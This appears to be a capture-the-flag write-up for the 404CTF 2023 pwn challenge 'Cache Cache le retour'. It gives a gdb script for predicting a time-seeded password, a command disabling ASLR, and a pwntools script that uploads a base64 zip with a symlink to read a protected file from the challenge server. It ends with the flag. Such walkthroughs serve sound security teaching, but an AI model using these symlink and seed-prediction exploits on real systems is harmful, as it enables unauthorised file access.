 ```yaml
---
title: CTFs | 404CTF2023 | PWN | Cache Cache Le Retour
author: Kaiba_404
date: 2023-06-05
categories: [CTFs, 404CTF2023, PWN]
tags: [CTF, 404CTF2023, PWN]
permalink: /CTFs/404CTF2023/pwn/cachecacheleretour
---
```


# Cache Cache le retour

![cache-cache-chall](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/61ac3663-27cb-4b5f-a960-f0aac9df459e)

Using the commands `file cache_cache_le_retour` and `checksec cache_cache_le_retour` to get some more infomation,

```bash
file cache_cache_le_retour 
cache_cache_le_retour: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d574568517100e5aa82bc0cc539ef23a08e43dd3, stripped

checksec cache_cache_le_retour
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

> From the output of `file cache_cache_le_retour` we can see that this binary is a dynamically linked ELF-64 x86-64 bit LSB and it is stripped
{: .prompt-info}

> The output of `checksec cache_cache_le_retour` indicates that the cache_cache_le_retour binary has strong security features enabled, including full RELRO, a stack canary, NX protection, and PIE. These features help mitigate common security vulnerabilities and make it more difficult for attackers to exploit the binary.

## Reverse engineering
Use Ghidra to read the code. Since the binary file has been stripped, it may be challenging to comprehend the code. As a solution, I decided to rename some functions to enhance the code's readability. The modified function names are displayed in the image below.

![func_name_chache](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/43956ad6-eb89-45fa-86f0-7ad970e0391e)

**The function main**

![main_cache_cache](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/aa32515f-57a5-4bbe-9404-c20ac8269b57)

From the code, it is evident that the password is randomly generated each time the ELF file is executed. The rand() function is utilized to generate a pseudo-random number, with the seed being based on the current timestamps.

Understanding this, we can recreate the password generation process by using the same binary file and providing a seed based on future timestamps, such as the next 30 seconds or more. By generating the password using this approach, we can then attempt to "brute force" the server's password by trying the generated passwords every second until we succeed.

The code below will help us to get the generated password by using gdb script:

```shell
set disassembly-flavor intel
# add break point at address 0x5555554016a5 (just before the srand() function) to change the seed of the random
break *0x5555554016a5
commands
    silent
    print($rax)
    # because we need the password for the next 33s, so we inscrease current value of rax (in this case it's current timestamp) by 33
    set $rax += 33
    print($rax)
    continue
end
# adding a new break point just before the instructions that will generate the password
break *0x5555554016ff
commands
    silent
    # get the password in to $pass variable
    set $pass = (char *) $rbp -0x40
    # print the password to screen
    print($pass)
    quit
end

run
```

Before running this script, we must temporarily disable ASLR (Address space layout randomization) to get the same address each time we launch the ELF file. By using this command \
`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

The breakpoints are put at the instructions that are in the red box in the image below

![br_point](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/6c1fc56e-7b86-407b-82ab-55bd2acb9b56)

Running the script:

```shell
gdb-peda$ source auto_gdb.gdb 
Breakpoint 1 at 0x5555554016a5
Breakpoint 2 at 0x5555554016ff
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
$1 = 0x64818bc0
$2 = 0x64818be1
$3 = 0x7fffffffdcb0 "[FG/9y>frk}>G18bcac["
```

==> password = `[FG/9y>frk}>G18bcac[`

Code for "brute forcing" the access:

```python

from pwn import *
import time

while True:


    p = process("./cache_cache_le_retour")
    # p = remote("challenges.404ctf.fr",31725)

    # the password of the next 33s seconds
    password = b'[FG/9y>frk}>G18bcac['

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()
    print(sms.decode())

p.interactive()
```

After finding the password, the program will call give_a_gift function (name that i set) as shown below

![give_a_gift](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/deab306f-6332-421b-bfc7-6965bb4278af)

This function takes a base64-encoded string as input then decode it after that it saves the decoded into a file named `mystere.zip` (It's a way to copy the file mystere.zip from our local machine to the server using `base64-encode-and-decode` ). Subsequently, it extracts the contents of this file to access the `surprise.txt` file. This indicates that we may be able to exploit the functionality by using symlinks within the `surprise.txt` file, allowing us to read the contents of arbitrary files after uploading them to the server.

We can also see the PS inside the description of the chall. There was something in the `sale_au_tresor`, so I decided to create a symlink from `mystere.txt` to the salle_au_tresor.

> we have seen that this function will display the content of suprise.txt after unzip mystere.txt so creating simlink from sall_au_tresor to surprise.txt will help us to read the contents of the file salle_au_tresor.
{: .prompt-tip}

By using the commands below we will get the base64 file and ready for exploiting
![PS_cache_cahe](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/67161fe4-719e-4340-a471-d50909b44951)

```shell
$ ln -s salle_au_tresor surprise.txt
$ zip --symlinks mystere.zip surprise.txt
$ cat mystere.zip | base64 

UEsDBAoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABwAc3VycHJpc2UudHh0VVQJAAMBumxkAbpsZHV4CwABBOgDAAAE6AMAAHNhbGxlX2F1X3RyZXNvclBLAQIeAwoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABgAAAAAAAAAAAD/oQAAAABzdXJwcmlzZS50eHRVVAUAAwG6bGR1eAsAAQToAwAABOgDAABQSwUGAAAAAAEAAQBSAAAAVQAAAAAA
```

## The complete code

```python
from pwn import *
import time

while True:


    # p = process("./cache_cache_le_retour")
    p = remote("challenges.404ctf.fr",31725)


    password = b'[FG/9y>frk}>G18bcac['

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()

    if b'Je me vois au regret de refuser' in sms:
        p.close()
        time.sleep(0.6)
        continue  
    gif = b"UEsDBAoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABwAc3VycHJpc2UudHh0VVQJAAMBumxkAbpsZHV4CwABBOgDAAAE6AMAAHNhbGxlX2F1X3RyZXNvclBLAQIeAwoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABgAAAAAAAAAAAD/oQAAAABzdXJwcmlzZS50eHRVVAUAAwG6bGR1eAsAAQToAwAABOgDAABQSwUGAAAAAAEAAQBSAAAAVQAAAAAA"
    p.sendline(gif)
    result = p.recvall()

    with open("remote_flag.txt", "wb") as binary_file:

        binary_file.write(result)
        break
print(result)
print('terminate')
p.interactive()

```

**Result**
```shell

[*] Closed connection to challenges.404ctf.fr port 31725
[+] Opening connection to challenges.404ctf.fr on port 31725: Done
[+] Receiving all data: Done (60B)
[*] Closed connection to challenges.404ctf.fr port 31725
b'404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}\n\n'
```

**Flag:**  `404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}`